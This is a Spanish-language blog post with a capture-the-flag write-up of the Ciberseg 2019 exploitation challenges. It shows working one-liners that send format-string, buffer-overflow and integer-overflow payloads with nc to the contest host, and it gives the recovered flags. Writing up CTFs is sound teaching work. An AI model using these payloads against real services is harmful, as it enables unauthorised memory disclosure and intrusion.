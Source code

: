 ```yaml
---
layout: post
title:  "Ciberseg 2019: explotación"
date:	2019-01-27 11:27:51 +0100
author: foo
categories: es ctf ciberseg write-up exploiting
lang: es
ref: ciberseg-2019-exploiting
---
```



En este post voy a explicar mis soluciones a los retos del Ciberseg de 2019. En concreto,
este artículo se corresponde con los de la categoría de **explotación**.

El [Ciberseg](https://ciberseg.uah.es/) es un congreso que tiene lugar todos los años por
estas fechas en la Universidad de Alcalá de Henares. La verdad es que los años anteriores
siempre ha sido divertido, y este año no ha sido menos :) Además, el podio ha estado muy
reñido y hubo sorpresas de última hora :D (al final gané en la última hora,
literalmente, por apenas unos pocos puntitos).


En fin, estos son los retos y sus soluciones. Lamentablemente, estos retos eran todos
remotos; así que no dispongo de los recursos para poder montarse los retos y resolverlos
por vuestra cuenta.

-----------------------------------------------------------------------------------------

# 1.- Loro (100 puntos)

La descripción de este reto dice así:

> Hemos contratado a un loro para que gestione las flags. Lo tenemos viviendo en el
> puerto 2323


Este reto consistía en un programa que repetía exactamente lo que se enviaba. El problema
es que no está bien escrito y no repite _exactamente_ lo que se le envía. Por ejemplo, si
se envía `%p` devuelve cosas como _(nil)_, _0x8485632_... Es decir, que es vulnerable a
la explotación por cadenas de formato (_format strings_).

Para conseguir la bandera, simplemente hay que ir sacando el contenido de la memoria
hasta conseguir la _flag_. Por ejemplo, me hice este script:
```sh
#!/bin/bash

for i in {1..20}
do
	printf "\n ---- %3d ---- \n" "$i"
	echo -e "AAAABBBB-%$i\$s\n" | nc ctf.alphasec.xyz 2323
done
```

Al intento diez u once aparece nuestra bandera: `flag{passwordseña_dude}`.

-----------------------------------------------------------------------------------------

# 2.- Xorizo (125 puntos)

La descripción de este reto dice:

> Hicimos el programa definitivo para superar estructuras discretas, pero al poner la
> contraseña, no conseguimos que descifre el secreto. La contraseña es
> "estructurasdiscretasjeje", pero al introducirla nos saca algo incomprensible...
>
> Este es el código:
> ```c
> void main(){
>
>	char pass[24] = "xxxxxxxxxxxxxxxxxxxxxxxx";
>	char x[10];
>
>	char flag[24] = ...;
>
>	char* res = malloc(24);
>
>	scanf("%s", x);
>	printf("%s\n", pass);
>
>	int i;
>	for(i = 0; i < 24; i++)
>		res = pass ^ flag;
>
>	printf("%s\n", res);
>
> }
> ```
>
>
> ¿Nos echas una mano? Está corriendo en ctf.alphasec.xyz:2424



Al conectarnos, nos pedía una contraseña y luego imprimía una cadena con cosas que
parecían basura. Sin embargo, si se ponen más de 10 caracteres, esta cadena que se
imprime cambia. Como tenemos el código, podemos comprobar que se produce un
_buffer overflow_:
{% highlight C linenos %}
void main ()
{
	char pass [24] = "xxxxxxxxxxxxxxxxxxxxxxxx";
	char x [10];

	char flag [24] = ...;

	char* res = malloc (24);

==>	scanf ("%s", x);	/* OVERFLOW! No se comprueba que quepan en X */
	printf ("%s\n", pass);

	int i;
	for (i = 0; i < 24; i++)
		res = pass ^ flag;

	printf ("%s\n", res);
}
{% endhighlight %}


Como se muestra en la línea marcada (**:10**), se copia lo que venga por pantalla sin
comprobar que quepan en la variable _x_, que sólo tiene espacio para 10 Bytes (9
caracteres más el delimitador de fin de cadena, _0x00_). Una vez hemos rebasado la
variable _x_, podemos sobrescribir el contenido de _pass_.

Como luego se hace una XOR entre la variable _pass_ y la _flag_, podemos manipular los
valores para sacar el valor original de la bandera. Pero... ¿cuáles son los valores
apropiados para _pass_?

Deducimos que el valor de _pass_ se sacó calculando <img src="https://latex.codecogs.com/svg.latex?\fn_cm%20flag%20\oplus%20pass" class="inline-math" alt="flag \oplus pass">.
Sabiendo esto, nos podemos basar en que <img src="https://latex.codecogs.com/svg.latex?\fn_cm%20\left(%20flag%20\oplus%20pass%20\right)%20\oplus%20pass%20=%20flag" class="inline-math" alt="\left( flag \oplus pass \right) \oplus pass = flag">
para darle a _pass_ el valor `estructurasdiscretasjeje` y nos sacaría el valor original de _flag_.

Juntándolo todo, nuestro _exploit_ sería algo como esto:
```sh
printf "0123456789estructurasdiscretasjeje\n" | nc ctf.alphasec.xyz 2424
```

Y sacamos la _flag_: `flag{lohacehastaunperro}`

-----------------------------------------------------------------------------------------

# 3.- Numerao, numerao... (150 puntos)

La descripción de este reto dice:
> ¡Viva la numeración!
>
> En ctf.alphasec.xyz:2525 tenemos un sistema que sólo acepta a los números positivos,
> pero sobre todo le tiene tirria a los ceros. Si tras operar con las entradas obtuviese
> un 0... No queremos imaginarnos qué resultado catástrofico podría tener.

El servicio corriendo en el puerto 2525 pide tres números y luego devuelve su suma.
Claramente, en este reto la intención es forzar un desbordamiento del tipo de dato para
que los números sean negativos. En concreto, se trata de un _int overflow_: si ponemos un
número mayor a <img src="https://latex.codecogs.com/svg.latex?\fn_cm%20\frac%20{2^{32}}{2}%20-%201%20=%202147483647" class="inline-math" alt="\fn_cm \frac {2^{32}}{2} - 1 = 2147483647">
podemos jugar con los tres operandos hasta obtener 0.

Al final los valores que usé fueron **2147483647**, **2147483647** y **2**:
```sh
echo -e "2147483647\n2147483647\n2" | nc ctf.alphasec.xyz 2525
```

Cuando conseguimos que la suma sea cero, nos devuelve la _flag_: `flag{pavoreal_uuu}`.


-----------------------------------------------------------------------------------------

# 4.- Corre Chicote (200 puntos)

Este fue el único reto que no conseguí terminar; pero se trataba de explotar la condición
de carrera TOCTOU (_Time Of Check - Time Of Use_). Os dejo por aquí
[el _gist_ de @KaoRz](https://gist.github.com/KaoRz/44ed827c258054577fc59cd70a9f381d),
que sí consiguió sacarlo.

El código es bastante sencillo de entender: básicamente hay que acceder (por HTTP) a los
recursos `/verify` y `/read` de manera simultánea hasta conseguir leer la bandera.

-----------------------------------------------------------------------------------------

Y ya está. Estos retos eran más cortitos que los de criptología.

Siempre me lo paso bien con los retos del Ciberseg, y este año no ha sido menos. Espero
poder competir el año que viene, que seguro que se superan otra vez.

También quiero dar mi enhorabuena a los organizadores por todo su esfuerzo y su
creatividad para crear retos fuera de lo común :D
